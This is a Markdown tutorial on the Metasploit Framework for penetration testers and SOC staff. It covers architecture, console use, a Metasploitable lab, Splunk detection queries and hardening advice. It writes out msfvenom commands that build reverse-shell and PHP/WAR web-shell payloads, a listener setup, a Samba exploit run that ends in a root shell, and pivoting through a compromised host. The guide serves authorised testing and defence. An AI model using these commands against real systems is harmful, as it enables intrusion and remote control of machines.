



# Metasploit Framework — Professional Penetration Testing, Exploit Architecture & Security Assessment Guide

> **Target Audience:** Penetration Testers, Red/Purple Teams, SOC Detection Engineers, Vulnerability Analysts, and Security Researchers.
>
> **Operational Scope:** Metasploit Framework Architecture, Modular Engine Internals (Auxiliary, Exploits, Payloads, Post, Encoders, Evasion), Multi-Domain Assessment, PostgreSQL Workspace Automation, Meterpreter Runtime Internals, `msfvenom` Payload Engineering, Blue-Team Telemetry (Sysmon & SIEM Correlation), and Enterprise Remediation.
>
> **Document Type:** Production-Grade Technical Reference & Hands-on Lab Playbook.

---

<div align="center">


# ⚔️ Metasploit Framework: Advanced Penetration Testing & Assessment ⚔️
### Modular Exploit Architecture • Multi-Domain Security • Telemetry Forensics • Enterprise Hardening

[](https://www.metasploit.com/)
[](https://github.com/rapid7/metasploit-framework)
[](https://docs.metasploit.com/)
[](http://www.pentest-standard.org/)
[](https://github.com/sivaoffl04/Cyber-Blog)

</div>

---

### 📺 Interactive Video Demonstrations & Video Labs

<div align="center">

| Demonstration | Target Architecture | Interactive Video Link |
| :--- | :--- | :---: |
| **Metasploit Framework Architecture & Console Mastery** | Workspaces, PostgreSQL DB, Auxiliary & Check Commands | [](https://www.youtube.com/results?search_query=metasploit+framework+masterclass+tutorial) |
| **Meterpreter Internals, Handlers & msfvenom** | Staged Payloads, In-Memory Execution & Pivoting | [](https://www.youtube.com/results?search_query=meterpreter+internals+msfvenom+tutorial) |
| **SOC Detection Engineering: Metasploit Activity in Splunk** | Sysmon EID 1/3/10 Correlation & Sigma Rules | [](https://www.youtube.com/results?search_query=detecting+metasploit+sysmon+splunk) |

</div>

---

### 💻 Real-Time Terminal Auditing & Detection Demonstration

The animated demonstration below showcases a complete end-to-end Metasploit security validation workflow: reconnaissance via auxiliary SMB discovery, non-destructive vulnerability checking (`check`), controlled exploit execution with staged Meterpreter delivery, and blue-team detection correlation in Splunk:


---

# 📋 Table of Contents

1. [Executive Overview: What is the Metasploit Framework?](#1-executive-overview-what-is-the-metasploit-framework)
2. [Multi-Domain Security Assessment Applications](#2-multi-domain-security-assessment-applications)
3. [Framework Architecture: Rex, Core, Base & Data Services](#3-framework-architecture-rex-core-base--data-services)
4. [The Seven Module Families](#4-the-seven-module-families)
5. [Installation, Verification & Environment Setup](#5-installation-verification--environment-setup)
6. [Console Mastery: `msfconsole` Navigation & Commands](#6-console-mastery-msfconsole-navigation--commands)
7. [PostgreSQL Database Integration & Workspace Workflows](#7-postgresql-database-integration--workspace-workflows)
8. [Professional Vulnerability Research & Module Vetting](#8-professional-vulnerability-research--module-vetting)
9. [Payload Architecture: Staged, Stageless & Meterpreter](#9-payload-architecture-staged-stageless--meterpreter)
10. [`msfvenom`: Standalone Payload Generation & Formatting](#10-msfvenom-standalone-payload-generation--formatting)
11. [Practical Hands-On Lab Walkthroughs (Metasploitable)](#11-practical-hands-on-lab-walkthroughs-metasploitable)
12. [Post-Exploitation Forensics & Network Pivoting](#12-post-exploitation-forensics--network-pivoting)
13. [SOC Telemetry & Detection Engineering (Sysmon & SIEM)](#13-soc-telemetry--detection-engineering-sysmon--siem)
14. [Production Splunk Detection Engineering (SPL Queries)](#14-production-splunk-detection-engineering-spl-queries)
15. [Professional Assessment Reporting & Risk Documentation](#15-professional-assessment-reporting--risk-documentation)
16. [Enterprise Defensive Hardening & Remediation Blueprint](#16-enterprise-defensive-hardening--remediation-blueprint)
17. [The 15-Phase Professional Learning Roadmap](#17-the-15-phase-professional-learning-roadmap)
18. [Official References & Authoritative Documentation](#18-official-references--authoritative-documentation)

---

# 1. Executive Overview: What is the Metasploit Framework?

Maintained by **Rapid7** and an active global open-source community, the **Metasploit Framework** is the world’s most widely adopted penetration testing and exploit validation platform.

Rather than requiring an operator to manually develop, compile, and troubleshoot standalone proof-of-concept scripts for every security assessment, Metasploit provides a standardized, modular Ruby runtime. Testers select an audit module, configure standard networking options (`RHOSTS`, `RPORT`, `LHOST`, `LPORT`), select an appropriate payload, and execute controlled security checks.

### The Professional Penetration Testing Workflow



> [!IMPORTANT]
> **Metasploit is not a substitute for vulnerability research.** A successful test depends on exact target operating system architecture, patch level, memory layout, service configurations, network firewalls, and active endpoint detection controls. Professional security assessment demands verifying preconditions, understanding the underlying exploit mechanics, and preferring non-destructive checks wherever feasible.

---

# 2. Multi-Domain Security Assessment Applications

Metasploit's modular design enables structured security testing across virtually every domain in enterprise computing:

| Domain | Operational Role & Capabilities | Companion Tools |
| :--- | :--- | :--- |
| **Network Penetration Testing** | Validating exposed daemon vulnerabilities, protocol fuzzing, SMB/SSH banner verification | Nmap, Wireshark, Zeek |
| **Web Application Security** | Verifying server-side vulnerabilities (Log4j, Struts, Spring4Shell, deserialization, LFI/RFI) | Burp Suite, OWASP ZAP |
| **Windows & Active Directory** | Validating SMB flaws (MS17-010), Print Spooler bugs, Kerberos ticket injection, service checks | BloodHound, Impacket, Mimikatz |
| **Linux & Unix Security** | Auditing unpatched daemons, sudo privilege escalation (Baron Samedit), SUID flaws | GDB, LinPEAS, auditd |
| **Cloud Security** | Testing accessible cloud workloads, SSRF targeting instance metadata (IMDSv1), container APIs | Pacu, ScoutSuite, Prowler |
| **Container & Kubernetes** | Auditing exposed Docker UNIX sockets (`2375`), misconfigured kubelets, container escapes | Trivy, Grype, Falco |
| **IoT & Embedded Systems** | Probing embedded web servers, UPnP services, default industrial control daemons | Binwalk, Ghidra, Wireshark |
| **Mobile Application Backends** | Probing mobile RESTful backend services, unauthenticated API gateways, token flaws | MobSF, JADX-GUI, Frida |
| **Exploit Research & Dev** | Dissecting memory corruption, stack overflows, ROP gadget chains, shellcode generation | GDB/GEF, x64dbg, Mona.py |
| **SOC & Purple Teaming** | Simulating controlled adversary behaviors to validate EDR rules, SIEM ingestion, and alerting | Splunk, Elastic HELK, Wazuh |
| **Vulnerability Management** | Validating vulnerability scanner outputs (Nessus, Qualys) to eliminate false positives | Nessus, Greenbone OpenVAS |
| **Incident Response (DFIR)** | Reproducing exploit artifacts, recreating adversary timelines, testing containment controls | Volatility, Velociraptor |

---

# 3. Framework Architecture: Rex, Core, Base & Data Services

The Metasploit Framework is constructed upon a layered software architecture in Ruby:


```text
+-----------------------------------------------------------------------------------------------+
|                                      USER INTERFACES                                          |
|                 msfconsole (CLI)   •   msfvenom (Payloads)   •   MSF RPC / API                |
+-----------------------------------------------------------------------------------------------+
|                                      MSF BASE LIBRARY                                         |
|                 Console Session Handling   •   Plugin Manager   •   Command APIs              |
+-----------------------------------------------------------------------------------------------+
|                                      MSF CORE LIBRARY                                         |
|            Event Subsystem   •   Module Loading Runtime   •   Payload Assembler               |
+-----------------------------------------------------------------------------------------------+
|                                    REX (RUBY EXTENSION)                                       |
|     Sockets (TCP/UDP/SSL)  •  Protocol Parsers (HTTP, SMB, RPC)  •  ELF/PE Binary Assembly    |
+-----------------------------------------------------------------------------------------------+
|                                   DATA SERVICES & STORAGE                                     |
|                       PostgreSQL Database (Hosts, Services, Creds, Loot)                      |
+-----------------------------------------------------------------------------------------------+
```

* **REX (Ruby Extension Library):** The foundation. Provides socket abstraction, raw packet transmission, SSL/TLS negotiation, protocol formatters (SMB, HTTP, DCE/RPC), and binary parsing engines.
* **MSF Core:** Manages internal events, defines module interfaces, handles session management, and coordinates payload stagers.
* **MSF Base:** Connects the core engine to user interfaces, managing session interactions, input/output, and database persistence.
* **Data Services Layer:** Interfaces with a local or remote **PostgreSQL database** to track engagement state: hosts, exposed ports, detected banners, captured credentials, and session logs.

---

# 4. The Seven Module Families

Every capability in Metasploit is categorized into one of seven distinct module types:

| Module Family | Path Prefix | Operational Function | Payload Delivered? |
| :--- | :--- | :--- | :---: |
| **Auxiliary** | `auxiliary/` | Scanners, port discovery, protocol fuzzers, credential verification, DoS testing | ❌ No |
| **Exploits** | `exploit/` | Delivery mechanisms that leverage software weaknesses to execute code | ✅ Yes |
| **Payloads** | `payload/` | Code executed on the target post-exploitation (stagers, stages, inline singles) | Target Action |
| **Post** | `post/` | Deep system configuration auditing, credential gathering, and internal pivoting | ❌ Operates on Session |
| **Encoders** | `encoder/` | Shellcode formatting to remove bad characters (`\x00`); not an AV bypass engine | Formatting Code |
| **NOP Generators** | `nop/` | Generates CPU sliding NOP sequences (x86, x64, ARM, MIPS) for memory landing | Memory Padding |
| **Evasion** | `evasion/` | Creates executable files with basic obfuscation for testing endpoint sensors | ✅ Yes |

### Exploit Reliability Rankings

Metasploit assigns an official reliability rank to every exploit module based on stability and potential target crash risk:

* **Excellent:** The exploit will never crash the target service (e.g., standard command injection, SQL injection, memory leak).
* **Great:** The exploit has a default target profile and successfully auto-detects architecture, or uses a highly reliable memory primitive.
* **Good:** The exploit has a default target profile and is common for that software class (e.g., standard buffer overflow).
* **Normal:** The exploit is reliable, but depends on specific target configurations or software versions.
* **Average:** The exploit is unreliable or causes a denial of service if memory addresses misalign.
* **Low / Manual:** The exploit is difficult to trigger, crashes the system, or requires intensive manual configuration.

---

# 5. Installation, Verification & Environment Setup

Metasploit Framework is installed natively on **Kali Linux** and **Parrot OS**.

### Checking Installation

```bash
msfconsole --version
```

```text
Framework Version: 6.4.12-dev
```

### Installing or Updating on Debian/Ubuntu/Kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```

### Verifying PostgreSQL Database Connectivity

A properly configured database accelerates search indexing and keeps engagement records organized:

```bash
# Start and enable PostgreSQL service
sudo systemctl enable --now postgresql

# Initialize the Metasploit database schema
sudo msfdb init

# Launch msfconsole
msfconsole -q
```

Inside `msfconsole`:

```text
msf6 > db_status
[*] Connected to msf. Connection type: postgresql. Connection name: local_db.
```

---

# 6. Console Mastery: `msfconsole` Navigation & Commands

The interactive console (`msfconsole`) is the primary operations center.

```text
+-----------------------------------------------------------------------------------------------+
|                                ESSENTIAL MSFCONSOLE COMMANDS                                  |
+-------------------+---------------------------------------------------------------------------+
| Command           | Purpose & Execution Syntax                                                |
+-------------------+---------------------------------------------------------------------------+
| help              | Display available commands or get help on a specific utility              |
| search <term>     | Query the module repository by CVE, platform, type, or service keyword    |
| info <module>     | Inspect comprehensive module metadata, authors, options, and references   |
| use <module>      | Load a specific module into the active workspace prompt                   |
| show options      | Display all required and optional configuration parameters                |
| show targets      | Display supported operating systems, architectures, and memory profiles   |
| show payloads     | Display compatible payloads for the currently selected exploit            |
| set <OPT> <VAL>   | Assign a value to a parameter in the local module context                 |
| setg <OPT> <VAL>  | Assign a global value persistent across all modules (e.g., setg RHOSTS)   |
| check             | Execute non-destructive vulnerability check (if supported by module)      |
| run / exploit     | Execute the configured module                                             |
| back              | Unload the current module and return to the root prompt                   |
| sessions -l       | List all currently established background sessions                        |
| sessions -i <ID>  | Interact with a specific background session                               |
| jobs -l           | List active background handlers or scanners                               |
| spool <file>      | Log all terminal activity and output to a local text file                |
+-------------------+---------------------------------------------------------------------------+
```

---

# 7. PostgreSQL Database Integration & Workspace Workflows

Professional penetration testers separate assessments into **Workspaces** to prevent evidence cross-contamination:

### Workspace Operations

```text
msf6 > workspace -a Project_FinCorp          <- Create a new engagement workspace
[*] Added workspace: Project_FinCorp
[*] Workspace: Project_FinCorp

msf6 > workspace                             <- List all active workspaces
  default
* Project_FinCorp
```

### Importing Reconnaissance Data with `db_nmap`

Instead of running Nmap separately, execute `db_nmap` inside `msfconsole`. Output automatically populates Metasploit's database:

```text
msf6 > db_nmap -sS -sV -O -p 21,22,80,445 192.168.1.0/24
```

### Querying Database Telemetry

```text
msf6 > hosts                                 <- Display all discovered IP addresses & OS profiles
msf6 > services                              <- Display open ports and service banners
msf6 > creds                                 <- Display captured hashes and plaintext passwords
msf6 > loot                                  <- Display exfiltrated configuration files & evidence
```

---

# 8. Professional Vulnerability Research & Module Vetting

A disciplined assessment never selects an exploit blindly based on service names. Operators follow an audit sequence:

```text
1. Software Fingerprint  --> Identify exact software, build, version, and architecture.
2. Module Search         --> search cve:2021-44228 type:exploit
3. Module Inspection     --> info exploit/multi/http/log4j_header_injection
4. Source Code Review    --> View the underlying Ruby source code on GitHub / disk.
5. Precondition Check    --> Confirm target configurations match vendor security advisories.
6. Non-Destructive Check --> Execute 'check' command before launching active payloads.
7. Post-Test Cleanup     --> Terminate sessions, clean disk artifacts, document timestamps.
```

### Searching the Module Repository

```text
msf6 > search type:auxiliary smb
msf6 > search cve:2020 platform:windows
msf6 > search name:apache type:exploit
```

---

# 9. Payload Architecture: Staged, Stageless & Meterpreter

Payloads determine what executes on the target system following successful exploitation:



### Staged vs Stageless Naming Convention

Notice the forward slash versus the underscore:
* **`windows/x64/meterpreter/reverse_tcp`** $\rightarrow$ **Staged.** The slash `/` between `meterpreter` and `reverse_tcp` indicates that a small stager executes first and pulls the larger Meterpreter stage DLL across the network.
* **`windows/x64/meterpreter_reverse_tcp`** $\rightarrow$ **Stageless.** The underscore `_` indicates an all-in-one payload where the full Meterpreter engine is embedded directly inside the payload blob.

### Reverse vs Bind Connections
* **Reverse Connection (`reverse_tcp` / `reverse_https`):** The target system initiates an outbound connection back to the tester's listener. Bypasses inbound perimeter firewalls.
* **Bind Connection (`bind_tcp`):** The target binds an open listening port and waits for the tester to connect. Used when the target cannot establish outbound connections.

---

# 10. `msfvenom`: Standalone Payload Generation & Formatting

`msfvenom` is the command-line utility for generating standalone shellcode, custom binaries, and embedded payloads across platforms:

```bash
# Basic msfvenom syntax
msfvenom -p <PAYLOAD> LHOST=<ATTACKER_IP> LPORT=<PORT> -f <FORMAT> -o <OUTPUT_FILE>
```

### Common Payload Formats

| Target Platform | Payload Specification | Output Format Flag | Command Syntax Example |
| :--- | :--- | :---: | :--- |
| **Windows x64** | `windows/x64/meterpreter/reverse_tcp` | `-f exe` | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe -o test.exe` |
| **Linux x64** | `linux/x64/meterpreter/reverse_tcp` | `-f elf` | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf -o test.elf` |
| **Web (PHP)** | `php/meterpreter/reverse_tcp` | `-f raw` | `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f raw -o shell.php` |
| **Web (WAR)** | `java/jsp_shell_reverse_tcp` | `-f war` | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f war -o app.war` |
| **Python** | `python/meterpreter/reverse_tcp` | `-f raw` | `msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f raw -o test.py` |
| **C Source** | `windows/x64/shell_reverse_tcp` | `-f c` | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f c` |

### Setting Up the Metasploit Handler (`multi/handler`)

When executing standalone payloads generated by `msfvenom`, configure a listener in `msfconsole`:

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.5
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.10.10.5:4444
```

---

# 11. Practical Hands-On Lab Walkthroughs (Metasploitable)

To master Metasploit safely, use isolated virtual lab networks running **Metasploitable 2** (Linux) and **Metasploitable 3** (Windows Server).

### Exercise 1: Information Gathering with Auxiliary Scanners

```text
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/smb/smb_version) > run
[+] 192.168.1.100:445 - SMB Detected: Unix (Samba 3.0.20-Debian)
[*] Auxiliary module execution completed
```

### Exercise 2: Vulnerability Auditing with the `check` Command

```text
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.1.100
msf6 exploit(multi/samba/usermap_script) > check
[*] 192.168.1.100:445 - The target appears to be vulnerable: Samba 3.0.20 detected!
```

### Exercise 3: Controlled Exploitation

```text
msf6 exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.1.50
msf6 exploit(multi/samba/usermap_script) > set LPORT 4444
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 192.168.1.50:4444
[*] Accepted the first client connection...
[*] Command shell session 1 opened (192.168.1.50:4444 -> 192.168.1.100:39214)

whoami
root
```

---

# 12. Post-Exploitation Forensics & Network Pivoting

Once a session is established, security analysts evaluate system posture, collect security evidence, and assess exposure without manual credential theft:

```text
meterpreter > sysinfo                       <- Operating system, hostname, kernel architecture
meterpreter > getuid                        <- Current execution context (NT AUTHORITY\SYSTEM, root)
meterpreter > ps                            <- Enumerate active process tree and architectures
meterpreter > ipconfig                      <- Discover dual-homed network interfaces
```

### Network Pivoting (Autoroute & SOCKS Proxy)

If the compromised system has a secondary internal network interface (e.g., `10.50.50.0/24`):

```text
# Add a route through the active Meterpreter session
meterpreter > background
msf6 > route add 10.50.50.0 255.255.255.0 1

# Launch the SOCKS proxy auxiliary module
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run -j
```

Now external tools (e.g., `proxychains nmap -sT -Pn 10.50.50.15`) can tunnel traffic directly through session 1 into the internal segment.

---

# 13. SOC Telemetry & Detection Engineering (Sysmon & SIEM)

Metasploit test activity generates high-fidelity telemetry across endpoint sensors:


### Core Telemetry Artifacts

| Sensor / Log Source | Event ID | Behavioral Anomaly Pattern |
| :--- | :--- | :--- |
| **Microsoft Sysmon** | **Event ID 1** | Process Creation: Suspicious parent-child relationship (e.g., `w3wp.exe` $\rightarrow$ `cmd.exe` or `powershell.exe`) |
| **Microsoft Sysmon** | **Event ID 3** | Network Connection: Target server establishing outbound connection to non-standard remote ports |
| **Microsoft Sysmon** | **Event ID 7** | Image Loaded: In-memory DLL injection loading unbacked Meterpreter libraries (`metcli.dll`) |
| **Microsoft Sysmon** | **Event ID 10** | Process Access: Source process requesting `PROCESS_ALL_ACCESS` (0x1FFFFF) against `lsass.exe` |
| **Windows Security** | **Event ID 4688** | Process Creation: Inspection of obfuscated base64 CLI arguments |
| **Windows Security** | **Event ID 4624** | Successful Logon: Logon Type 3 (Network) or Logon Type 10 (RemoteInteractive) |

---

# 14. Production Splunk Detection Engineering (SPL Queries)

### Query 1: Detecting Suspicious Web Server Child Processes (Sysmon EID 1)

Identifies web application daemons (IIS, Apache, Tomcat) spawning command interpreters:

```splunk
index=windows EventCode=1 (ParentImage="*\\w3wp.exe" OR ParentImage="*\\httpd.exe" OR ParentImage="*\\tomcat*.exe")
  (Image="*\\cmd.exe" OR Image="*\\powershell.exe" OR Image="*\\sh.exe" OR Image="*\\bash.exe")
| stats count values(CommandLine) as executed_commands by host, User, ParentImage, Image, _time span=5m
| eval Alert="High Severity: Web Server Spawning Shell Interpreter (Potential Web RCE)"
```

### Query 2: Detecting In-Memory LSASS Dumping (Sysmon EID 10)

Detects unauthorized processes requesting memory access to `lsass.exe`:

```splunk
index=windows EventCode=10 TargetImage="*\\lsass.exe" GrantedAccess="0x1FFFFF"
| stats count by host, SourceImage, TargetImage, GrantedAccess
| eval Alert="Critical: Full Memory Access Requested on LSASS (Credential Dumping)"
```

### Query 3: Detecting Outbound Reverse Shell Connections (Sysmon EID 3)

Identifies standard system binaries establishing outbound TCP connections on unusual ports:

```splunk
index=windows EventCode=3 (Image="*\\rundll32.exe" OR Image="*\\regsvr32.exe" OR Image="*\\certutil.exe")
  DestinationPort!=80 DestinationPort!=443 DestinationPort!=53
| stats count values(DestinationIp) as remote_c2 by host, Image, DestinationPort
| eval Alert="Anomalous Outbound Network Socket from Administrative Binary"
```

---

# 15. Professional Assessment Reporting & Risk Documentation

Every confirmed security finding must be documented with technical rigor:

```text
====================================================================================================
                              TECHNICAL VULNERABILITY ASSESSMENT FINDING
====================================================================================================
FINDING ID:        FIN-2026-VULN-004
TITLE:             Remote Code Execution via Apache Struts Deserialization
SEVERITY:          CRITICAL (CVSS v3.1: 9.8 / AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
AFFECTED ASSET:    https://payments.fincorp.local/orders (IP: 192.168.10.45:443)
VULNERABILITY ID:  CVE-2017-5638

PRECONDITIONS:
The payments order portal exposes an unpatched Apache Struts 2.3.24 runtime. Content-Type HTTP
header parsing is enabled without input validation.

TEST METHODOLOGY:
1. Executed non-destructive check module:
   use exploit/multi/http/struts2_content_type_ognl
   set RHOSTS payments.fincorp.local
   check
2. Verified vulnerable status returned: "The target is vulnerable: Apache Struts 2.3.24".
3. Executed controlled proof of execution using harmless command payload:
   set PAYLOAD cmd/unix/generic
   set CMD "id; hostname"
   run

EVIDENCE:
HTTP/1.1 200 OK
uid=33(www-data) gid=33(www-data) groups=33(www-data)
hostname: prod-payments-web01

BUSINESS IMPACT:
An unauthenticated external attacker can execute arbitrary operating system commands with
www-data privileges, exfiltrate sensitive payment transaction records, and pivot internally.

DEFENSIVE TELEMETRY:
• WAF Alert: ModSecurity Rule ID 944130 (OGNL Injection Attempt) fired.
• EDR Sensor: Alerted on /usr/bin/id spawned from Apache tomcat process.

REMEDIATION:
Upgrade Apache Struts to version 2.3.32 or 2.5.10.1 or later. Enforce WAF virtual patching rules.
====================================================================================================
```

---

# 16. Enterprise Defensive Hardening & Remediation Blueprint

1. **Vulnerability & Patch Governance:** Establish SLA-driven patching cycles (e.g., Critical CVEs remediated within 72 hours).
2. **Network Microsegmentation:** Block lateral server-to-server SMB and RPC communication using host firewalls and VLAN ACLs.
3. **Attack Surface Reduction (ASR):** Enable Windows Defender ASR rules:
   * *Block executable content from email client and webmail.*
   * *Block Office applications from creating child processes.*
   * *Block credential stealing from Windows Local Security Authority Subsystem (`lsass.exe`).*
4. **Least Privilege Execution:** Configure all application pools (IIS, Apache, Tomcat, Nginx) to run under isolated, unprivileged service accounts without write permissions to system directories.
5. **Continuous Purple-Team Retesting:** Validate that patches completely close vulnerabilities by re-running non-destructive check routines during authorized maintenance windows.

---

# 17. The 15-Phase Professional Learning Roadmap



---

# 18. Official References & Authoritative Documentation

* **Rapid7 Official Metasploit Website:** [https://www.metasploit.com](https://www.metasploit.com)
* **Official Open-Source GitHub Repository:** [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
* **Metasploit Core Documentation:** [https://docs.metasploit.com](https://docs.metasploit.com)
* **Rapid7 Module Reference Library:** [https://docs.rapid7.com/metasploit/modules/](https://docs.rapid7.com/metasploit/modules/)
* **Official Metasploit Framework Wiki:** [https://github.com/rapid7/metasploit-framework/wiki](https://github.com/rapid7/metasploit-framework/wiki)
* **Metasploitable 2 Vulnerable Target Guide:** [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)
* **Metasploitable 3 GitHub Project:** [https://github.com/rapid7/metasploitable3](https://github.com/rapid7/metasploitable3)
* **Penetration Testing Execution Standard (PTES):** [http://www.pentest-standard.org/](http://www.pentest-standard.org/)
* **MITRE ATT&CK Framework:** [https://attack.mitre.org/](https://attack.mitre.org/)
